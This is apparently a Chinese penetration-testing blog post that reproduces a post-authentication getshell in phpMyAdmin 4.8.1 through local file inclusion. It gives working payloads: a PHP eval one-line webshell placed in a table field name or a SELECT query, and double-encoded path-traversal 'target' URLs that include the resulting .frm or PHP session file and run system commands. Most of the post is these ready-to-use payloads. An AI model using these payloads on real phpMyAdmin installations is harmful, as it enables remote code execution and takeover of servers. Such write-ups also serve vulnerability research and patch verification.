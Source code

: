 ```yaml
---
layout: post
title: phpmyadmin4.8.1后台getshell
categories: [渗透]
tags: [渗透]
fullview: false
comments: true
---
```


复现一下  
  
phpmyadmin4.8.1后台getshell  

包含文件进行getshell  

姿势:  

### ① ###
建立数据库的，新建表，字段名为一句话木马。 

  
![](https://i.imgur.com/EPlDyPp.png)

会生成对应的数据库文件，相应文件的路径查看  
>     select @@datadir;

![](https://i.imgur.com/Audw2qN.png)  
  
这个样子就会在/var/lib/mysql/hack/hack.frm的文件里包含着一句话木马的字段。  

![](https://i.imgur.com/bEMPj9r.png)  

>     ?target=db_sql.php%253f/../../../../../../var/lib/mysql/data/hack/hack.frm  

![](https://i.imgur.com/UONoCwf.png)  

权限不够，  

![](https://i.imgur.com/HZtEHKa.png)  

不过这个windows下面倒是很简单，不用考虑权限。
### ② ###

查询语句(一句话木马)，  

执行查询  

>     select '<?php @eval($_GET["code"])?>'


之后会保存在session文件里。  

session文件:  
>     /var/lib/php/sessions/sess_你的SESSION ID  

包含payload:
>     ?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_6ker17rs59cuu39e6rfdpdrcaoto5116&a=system("ls");
  
![](https://i.imgur.com/ksFcQS2.png) 

